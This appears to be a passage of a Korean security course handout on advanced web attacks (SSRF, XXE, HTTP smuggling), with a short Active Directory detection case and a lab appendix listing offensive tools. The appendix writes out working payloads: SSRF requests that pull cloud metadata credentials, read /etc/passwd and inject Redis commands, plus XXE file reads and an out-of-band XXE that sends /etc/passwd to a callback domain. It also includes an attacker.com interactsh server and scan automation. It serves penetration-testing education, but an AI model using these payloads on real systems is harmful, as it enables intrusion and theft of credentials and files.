**로그·확인 명령**

- `Logger` — 세션 전체 요청 타임라인

**UI / CLI 요점**

- Ctrl+R — 요청을 Repeater로 전송
- Ctrl+I — Intruder로 전송 후 위치(§) 설정
- Intruder Attack type: Sniper/Cluster bomb — 단일/다중 페이로드 조합

> **해석 팁.** Community 버전은 **Intruder 속도 제한**이 있어 대량 브루트포스는 비현실적. 취약점 재현과 보고서 증적 확보에 집중.

---

## 실제 사례 (WitFoo Precinct 6 — Active Directory)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Active Directory* 학습 항목 매칭.

### Active Directory 의 dataset 흔적 — "Kerberos 4768/4769"

dataset 의 정상 운영에서 *Kerberos 4768/4769* 신호의 baseline 을 알아두면, *Active Directory* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — ASREP/Kerberoast.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | Kerberos 4768/4769 |
| 정량 baseline | ASREP/Kerberoast |
| 학습 매핑 | AD 공격 chain |

**자세한 해석**: AD 공격 chain. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | Kerberos 4768/4769 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Active Directory = Kerberos 4768/4769 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — ASREP/Kerberoast.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: BloodHound + impacket.


---

## 부록: 학습 OSS 도구 매트릭스 (Course13 — Week 04 웹 고급 (SSRF/XXE))

### lab step → 도구 매핑

| step | 학습 항목 | OSS 도구 |
|------|----------|---------|
| s1 | SSRF 자동 점검 | SSRFmap |
| s2 | XXE injection | xxe-injection-payload-list |
| s3 | XXE OOB (out-of-band) | XXEinjector |
| s4 | OOB DNS interaction | Burp Collaborator OSS / interactsh |
| s5 | wapiti (자동 종합) | wapiti |
| s6 | nuclei advanced templates | nuclei |
| s7 | HTTP smuggling | smuggler / http2smugl |
| s8 | API security | nuclei API + custom | 

### 학생 환경 준비

```bash
# === SSRFmap ===
git clone https://github.com/swisskyrepo/SSRFmap ~/ssrfmap
cd ~/ssrfmap && pip install -r requirements.txt

# === XXE 도구 ===
git clone https://github.com/enjoiz/XXEinjector ~/xxeinjector

# XXE payload list
git clone https://github.com/payloadbox/xxe-injection-payload-list ~/xxe-payloads

# === interactsh (OOB callback) ===
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest
# 또는 self-host:
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-server@latest

# === wapiti ===
sudo apt install -y wapiti

# === nuclei + advanced templates ===
nuclei -update-templates
git clone https://github.com/projectdiscovery/nuclei-templates ~/nuclei-templates

# === smuggler (HTTP smuggling) ===
git clone https://github.com/defparam/smuggler ~/smuggler

# === http2smugl (HTTP/2 smuggling) ===
go install github.com/neex/http2smugl@latest

# === Burp Suite Community (수동 검증) ===
# https://portswigger.net/burp/communitydownload
```

### 핵심 — SSRF (Server-Side Request Forgery)

```bash
# === SSRFmap (자동) ===

# 1) 단일 URL 자동 fuzz
python3 ~/ssrfmap/ssrfmap.py \
    -r req.txt \
    -p url \
    -m readfiles,portscan,smtp,redis

# req.txt 예 (Burp request export):
# POST /api/fetch HTTP/1.1
# Host: target.com
# Content-Type: application/json
# 
# {"url":"http://example.com"}                           ← 'url' 파라미터에 inject

# 2) 모듈별 시도
# - readfiles: file:// 으로 파일 읽기
# - portscan: 내부 port 스캔
# - smtp: SMTP 으로 internal 메일 서버 abuse
# - redis: Redis 명령 주입
# - networks: 내부 네트워크 enum

# === 수동 SSRF payload ===

# Cloud metadata (AWS / GCP / Azure)
curl "http://target.com/api/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Internal network
curl "http://target.com/api/fetch?url=http://internal-db:5432/"
curl "http://target.com/api/fetch?url=http://10.0.0.1:22"

# File scheme
curl "http://target.com/api/fetch?url=file:///etc/passwd"

# Redis
curl "http://target.com/api/fetch?url=gopher://internal-redis:6379/_*1%0d%0a%243%0d%0aSET%0d%0a%245%0d%0apwn%0d%0a"

# === Bypass — DNS rebinding ===
# 1.2.3.4.nip.io → DNS resolves 1.2.3.4 (bypass URL filter)
curl "http://target.com/api/fetch?url=http://127.0.0.1.nip.io/"
```

### XXE (XML External Entity)

```bash
# === Classic XXE — file read ===
cat > /tmp/xxe.xml << 'XMLEOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
XMLEOF

curl -X POST http://target.com/api/upload \
    -H "Content-Type: application/xml" \
    -d @/tmp/xxe.xml

# === Out-of-band (OOB) XXE — 데이터 exfil ===

# 1) interactsh 으로 OOB endpoint 받기
interactsh-client > /tmp/oob.txt &
INTERACTSH_DOMAIN=$(grep -oE '[a-z0-9]+\.oast\.fun' /tmp/oob.txt | head -1)

# 2) Payload (DNS lookup 기반 exfil)
cat > /tmp/xxe-oob.xml << XMLEOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://$INTERACTSH_DOMAIN/?data=%file;'>">
  %eval;
  %exfil;
]>
<root></root>
XMLEOF

# 3) Submit
curl -X POST http://target.com/api/parse \
    -H "Content-Type: application/xml" \
    -d @/tmp/xxe-oob.xml

# 4) interactsh 가 callback 받음 → /etc/passwd 내용 노출

# === XXEinjector (자동) ===
ruby ~/xxeinjector/XXEinjector.rb \
    --host=target.com \
    --httpport=80 \
    --file=req.txt \
    --path=/api/parse \
    --oob=http
```

### interactsh (OOB callback 표준)

```bash
# === Client 사용 ===
interactsh-client
# 출력:
# https://...........oast.fun
# 이 domain 으로 들어오는 모든 callback 자동 표시

# === Self-host server (실전 환경) ===
interactsh-server -domain attacker.com -ldf cert.pem
# 자체 도메인의 OOB callback receive

# === Nuclei 와 통합 ===
nuclei -u http://target -t custom-xxe.yaml -interactsh-server https://attacker-oob
```

### wapiti (다목적 자동 web scanner)

```bash
# === 모든 vuln 자동 ===
wapiti -u http://target.com \
    --scope folder \
    -m all \
    -o /tmp/wapiti-report

# 검출 모듈:
# - sql (SQLi)
# - xss
# - exec (RCE)
# - file (LFI/RFI)
# - xxe
# - ssrf
# - htaccess
# - csrf
# - permanentxss

# === 특정 모듈만 ===
wapiti -u http://target -m sql,xss,xxe,ssrf

# === 인증된 scan ===
wapiti -u http://target \
    -a user%password
    -auth-method post                                     # form-based
```

### nuclei advanced (custom + community templates)

```bash
# === 1. Severity 별 ===
nuclei -u http://target -severity critical,high

# === 2. Tags 별 ===
nuclei -u http://target -tags ssrf,xxe,injection

# === 3. CVE 별 ===
nuclei -u http://target -tags cve

# === 4. 커스텀 template (XXE OOB) ===
cat > /tmp/xxe-custom.yaml << 'TEOF'
id: xxe-oob-detection
info:
  name: XXE OOB Detection
  severity: critical

http:
  - method: POST
    path: ['{{BaseURL}}/api/parse']
    headers:
      Content-Type: application/xml
    body: |
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [
        <!ENTITY xxe SYSTEM "http://{{interactsh-url}}/{{randstr}}">
      ]>
      <root>&xxe;</root>
    
    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words: ["http", "dns"]
      - type: status
        status: [200, 500]
TEOF

nuclei -u http://target -t /tmp/xxe-custom.yaml \
    -interactsh-server https://oast.fun
```

### HTTP smuggling (smuggler / http2smugl)

```bash
# === smuggler (HTTP/1.1 CL.TE / TE.CL) ===
python3 ~/smuggler/smuggler.py -u target.com -m TE.CL
python3 ~/smuggler/smuggler.py -u target.com -m CL.TE

# 출력 예 (취약):
# [TE.CL] target.com → vulnerable
# Test results: ...

# === http2smugl (HTTP/2 → HTTP/1.1 smuggling) ===
http2smugl detect https://target.com
http2smugl smuggle https://target.com \
    --request 'GET /admin HTTP/1.1\r\n...'
```

### 통합 web vuln scan 흐름

```bash
#!/bin/bash
# /opt/scripts/web-advanced-scan.sh
TARGET=$1
DIR=/var/log/web-scan/$TARGET-$(date +%Y%m%d-%H%M)
mkdir -p $DIR

# === 1. nikto (전통적 ===
nikto -h $TARGET -o $DIR/01-nikto.txt

# === 2. nuclei 종합 ===
nuclei -u $TARGET -severity high,critical \
    -o $DIR/02-nuclei.json -j

# === 3. wapiti ===
wapiti -u $TARGET -o $DIR/03-wapiti

# === 4. SSRFmap ===
# (req.txt 필요 — Burp 으로 export)
# python3 ~/ssrfmap/ssrfmap.py -r req.txt -p url -m all > $DIR/04-ssrfmap.txt

# === 5. XXE 자동 (XXEinjector) ===
ruby ~/xxeinjector/XXEinjector.rb --host=$TARGET ... > $DIR/05-xxe.txt

# === 6. HTTP smuggling ===
python3 ~/smuggler/smuggler.py -u $TARGET > $DIR/06-smuggler.txt

# === 7. Sqlmap (week03 재사용) ===
sqlmap -u "http://$TARGET/?id=1" --batch --random-agent > $DIR/07-sqlmap.txt

# === 8. interactsh (OOB callbacks 모니터) ===
interactsh-client > $DIR/08-oob-callbacks.txt &
sleep 3600                                                # 1시간 대기

# === 9. 통합 보고서 ===
cat > $DIR/00-report.md << EOF
# Web Vulnerability Report — $TARGET

## Critical/High findings
- nuclei: $(jq '[.[] | select(.severity == "critical" or .severity == "high")] | length' $DIR/02-nuclei.json)
- nikto: $(grep -c "+ " $DIR/01-nikto.txt)
- wapiti: (HTML report 참조)

## SSRF / XXE
$(cat $DIR/04-ssrfmap.txt 2>/dev/null | head -20)

## HTTP Smuggling
$(cat $DIR/06-smuggler.txt 2>/dev/null | head)

## OOB Callbacks
$(cat $DIR/08-oob-callbacks.txt | head)
EOF
```

학생은 본 4주차에서 **SSRFmap + XXEinjector + xxe-payload-list + interactsh + wapiti + nuclei + smuggler + http2smugl** 8 도구로 advanced web vulnerability (SSRF / XXE / HTTP smuggling / OOB) 자동 점검 + 보고서 자동 생성을 OSS 만으로 익힌다.
